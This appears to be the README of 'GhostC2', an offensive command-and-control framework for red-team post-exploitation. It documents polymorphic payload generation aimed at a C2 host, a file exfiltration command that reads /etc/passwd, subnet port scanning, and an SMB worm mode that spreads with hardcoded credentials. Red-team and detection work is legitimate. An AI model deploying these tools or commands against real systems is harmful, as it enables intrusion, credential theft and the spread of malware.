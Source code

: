 # 👻 GhostC2

GhostC2 is a modular, encrypted, post-exploitation command-and-control (C2) framework built with Python and Flask. It features real-time WebSocket communication, polymorphic payload generation, operator authentication, and optional `.exe` packaging. 

Check out the wiki for an Operator Quickstart Guide.

---

## 🚀 Features

- 🔐 AES-256 encrypted communication (symmetric)
- 🌐 Real-time bidirectional WebSocket tasking
- 🧠 Operator web console with live terminal view
- 🧼 Polymorphic payload generator with randomized variables
- 🖥️ Optional `.exe` compilation with PyInstaller
- 🛡️ Flask-Login based access control
- 🗞️ SQLite-based task/result logging
- 🔍 Network Port Scanning (`scan <subnet> ports:<port1>,<port2>...`)
- 🧬 Self-Propagating Worm Mode via SMB

---

## 📁 Project Structure

```
GhostC2/
├── builds/                 # Compiled payloads (.py, .exe)
├── output/                 # (Optional legacy output dir)
├── payloads/               # WebSocket and polling Python agents
│   └── ghost_socket_payload.py
├── server/
│   ├── app.py              # Main Flask + SocketIO server
│   └── templates/          # HTML templates for dashboard, console, login
├── tools/
│   └── generate_payload.py # Payload generator script
├── utils/
│   └── crypto.py           # AES encrypt/decrypt helpers
└── README.md
```

---

## ⚙️ Setup

### 1. Install dependencies
```bash
pip install flask flask-login flask-socketio eventlet pyinstaller
```

### 2. Run the server
```bash
cd server
python app.py
```

Visit [http://localhost:8080](http://localhost:8080)

**Default Login:**
```
Username: admin
Password: ghostpass123
```

---

## 👾 Payloads

### ✅ WebSocket Agent *(experimental – not recommended for active use)*
```bash
python payloads/ghost_socket_payload.py
```

---

### 🧼 Generate Polymorphic Payload *(recommended)*
```bash
# Generate Python payload
python tools/generate_payload.py

# With .exe output
python tools/generate_payload.py --exe
```

---

### 🌐 Example: Generate payload for 10.10.10.10
```bash
python tools/generate_payload.py \
  --c2 http://10.10.10.10:8080/beacon \
  --result http://10.10.10.10:8080/result
```

To also compile to `.exe`:
```bash
python tools/generate_payload.py \
  --c2 http://10.10.10.10:8080/beacon \
  --result http://10.10.10.10:8080/result \
  --exe
```

---

## 🖥️ Live Console Terminal

GhostC2 includes a web-based console for interacting with beacons in real-time.

### ✅ Features

- WebSocket-powered command/result loop
- Real-time session interaction
- Preloaded recon commands
- JSON result support (e.g., `scan`)
- Beacon targeting + logging

---

## 📂 File Exfiltration

### Command
```bash
getfile /etc/passwd
```

Agent will:
1. Base64 the file
2. AES encrypt the result
3. Send to server
4. Server saves to `server/downloads/<hostname>/`

---

## 🔍 Network Scanning (New)

### Command
```bash
scan 192.168.0.0/24 ports:80,443,445,3389
```

Agent will:
- Scan the provided subnet and ports
- Return open/closed results in JSON
- Format them in the dashboard

### Example Output
```
$ scan 127.0.0.1/32 ports:80
{
  "127.0.0.1": {
    "80": "open"
  }
}
```

---

## 🧬 Worm Propagation Mode (New)

Payloads generated with `--worm` will:
- Scan local subnet for port 445
- Try hardcoded SMB creds
- Drop and remotely execute `worm.py`

Useful for:
- Simulating worm-like behavior
- Lateral movement in test labs

---

## 🔐 Security Notes

- AES-encrypted traffic throughout
- Operator auth required for all access
- Session isolation by beacon hostname

---

## 🧪 Red Team Use Cases

| Scenario              | Usage                                    |
|----------------------|------------------------------------------|
| Post-exploitation    | Remote shell via encrypted WebSocket     |
| Payload generation   | Obfuscated `.py` or `.exe` files         |
| Operator dashboards  | Web UI for task/result review            |
| C2 simulations       | Train detection or analyze traffic       |

---

## ⚠️ Legal

GhostC2 is for **authorized red team or academic use only**.

---

## 🧠 Built by Edward Wolfgang

- GitHub: [@wolfwashere](https://github.com/wolfwashere)
- Project: GhostC2 v1.0

Contributions welcome.
